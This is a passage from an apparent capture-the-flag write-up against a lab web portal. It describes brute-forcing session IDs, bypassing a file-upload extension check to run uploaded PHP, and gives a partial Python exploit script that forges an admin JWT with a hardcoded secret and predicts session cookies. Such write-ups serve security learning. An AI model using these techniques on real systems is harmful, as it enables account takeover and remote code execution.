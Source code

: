 ```php

// $decoded = JWT::decode($jwt, $secret_key, array('HS256'));
// var_dump($decoded);
// echo $decoded;
?>
```

Loop Through all possible session IDs and when u get a positive hit, save that session IDs and jwt token in cookie storage and refresh the page.

![](screenshots/file-upload.png)

Than upload the file, intercept the request and change the file extention and forward that request. Go to `/portal/uploads/` and execute that php file.

Here's my exploit script
```py
import argparse
import string
import sys
import jwt
import requests as r
import random
import hashlib

parser = argparse.ArgumentParser()
url = 'http://10.10.10.228/portal'
admin_name = 'paul'
secret = '6cb9c1a2786a483ca5e44571dcc5f3bfa298593a6376ad92185c3258acd5591e'
payload = {"data": {"username": admin_name}}
encoded_jwt = jwt.encode(payload, secret, algorithm="HS256")
# decoded_jwt = jwt.decode(encoded_jwt, secret, algorithms=["HS256"])
rnd_word = ''.join(random.choices(string.ascii_letters + string.digits, k=8))


def makesession(username):
    maximum = len(username) - 1
    seed = random.randint(0, maximum)
    key = "s4lTy_stR1nG_" + username[seed] + "(!528./9890"
    session_cookie = username + hashlib.md5(key.encode()).hexdigest()
    return session_cookie


def admin(admin_session):
    cookies_dict = {"PHPSESSID": admin_session, "token": encoded_jwt}
    admin_rsnp = r.get(f'{url}/index.php', cookies=cookies_dict)
    return admin_rsnp.text
```